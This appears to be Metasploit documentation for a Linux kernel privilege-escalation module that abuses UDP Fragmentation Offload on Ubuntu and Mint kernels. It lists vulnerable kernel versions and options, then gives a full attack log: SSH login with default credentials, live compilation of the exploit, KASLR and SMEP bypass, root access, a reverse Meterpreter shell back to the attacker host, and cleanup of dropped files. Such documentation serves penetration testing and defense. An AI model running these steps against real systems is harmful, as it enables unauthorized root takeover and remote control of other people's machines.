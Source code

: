 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).

This module has been tested successfully on:

  * Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop
  * Ubuntu 16.04 4.8.0-53-generic
  * Linux Mint 18 4.8.0-58-generic
  
There is a large swath of vulnerable kernels believed to be from about 3.13 to 4.11.
Only Ubuntu based kernels were coded into this particular exploit, however other flavors of linux
may also be vulnerable.  The following kernels and systems are coded into the exploit and should work,
but may not be tested.

  * Trusty 14.04 (14.04.5 shipped with 4.4 by default)
    * 4.4.0-21-generic
    * 4.4.0-22-generic
    * 4.4.0-24-generic
    * 4.4.0-28-generic
    * 4.4.0-31-generic
    * 4.4.0-34-generic
    * 4.4.0-36-generic
    * 4.4.0-38-generic
    * 4.4.0-42-generic
    * 4.4.0-45-generic
    * 4.4.0-47-generic
    * 4.4.0-51-generic
    * 4.4.0-53-generic
    * 4.4.0-57-generic
    * 4.4.0-59-generic
    * 4.4.0-62-generic
    * 4.4.0-63-generic
    * 4.4.0-64-generic
    * 4.4.0-66-generic
    * 4.4.0-67-generic
    * 4.4.0-70-generic
    * 4.4.0-71-generic
    * 4.4.0-72-generic
    * 4.4.0-75-generic
    * 4.4.0-78-generic
    * 4.4.0-79-generic
    * 4.4.0-81-generic
    * 4.4.0-83-generic
  * Xenial 16.04 (16.04, and 16.04.1 ship with 4.4 kernels, while 16.04.2 ships with 4.8, and 16.04.3 ships with 4.10)
    * 4.4.0-81-generic
    * 4.4.0-89-generic
    * 4.8.0-34-generic
    * 4.8.0-36-generic
    * 4.8.0-39-generic
    * 4.8.0-41-generic
    * 4.8.0-45-generic
    * 4.8.0-46-generic
    * 4.8.0-49-generic
    * 4.8.0-52-generic
    * 4.8.0-53-generic
    * 4.8.0-54-generic
    * 4.8.0-56-generic
    * 4.8.0-58-generic
    * 4.4.0-81-generic
  * Linux Mint 18 (sarah)
    * 4.4.0-81-generic
    * 4.4.0-89-generic
    * 4.8.0-34-generic
    * 4.8.0-36-generic
    * 4.8.0-39-generic
    * 4.8.0-41-generic
    * 4.8.0-45-generic
    * 4.8.0-46-generic
    * 4.8.0-49-generic
    * 4.8.0-51-generic
    * 4.8.0-52-generic
    * 4.8.0-53-generic
    * 4.8.0-54-generic
    * 4.8.0-56-generic
    * 4.8.0-58-generic

          
### POC Issues

In the original POC exploit, a bash shell is executed with root privileges, however, in testing,
it was determined that the network stack seems to be unresponsive post exploitation to that process
and its children.  To circumvent this issue, this exploit calls a stub bash script to chmod and set
suid/sgid bits on the payload.  Then the original shell can simply execute the payload to escalate.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
resource (ubuntu.rb)> use exploit/linux/local/ufo_privilege_escalation
resource (ubuntu.rb)> set verbose true
verbose => true
resource (ubuntu.rb)> set session 1
session => 1
resource (ubuntu.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ubuntu.rb)> exploit
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Checking if smap is installed...
[+] smap not present
[+] Kernel 4.4.0-31-generic on trusty is vulnerable
[+] gcc is installed
[*] Live compiling exploit on system
[*] Writing files to target
[*] Writing '/tmp/.diYKJIPbmq.c' (27604 bytes) ...
[*] Max line length is 65537
[*] Writing 27604 bytes in 2 chunks of 56280 bytes (octal-encoded), using printf
[*] Next chunk is 39623 bytes
[*] Writing '/tmp/.n2iZShoz' (237 bytes) ...
[*] Max line length is 65537
[*] Writing 237 bytes in 1 chunks of 735 bytes (octal-encoded), using printf
[*] Writing '/tmp/.K8FWp4I.sh' (69 bytes) ...
[*] Max line length is 65537
[*] Writing 69 bytes in 1 chunks of 255 bytes (octal-encoded), using printf
[*] Starting execution of priv esc, chowning and setting suid bit for payload.
[*] [.] starting
[*] [.] checking distro and kernel versions
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, versions looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [~] done, kernel text:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Executing payload
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:53224) at 2018-04-17 16:49:27 -0400
[+] Deleted /tmp/.diYKJIPbmq.c
[+] Deleted /tmp/.n2iZShoz
[+] Deleted /tmp/.K8FWp4I.sh

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
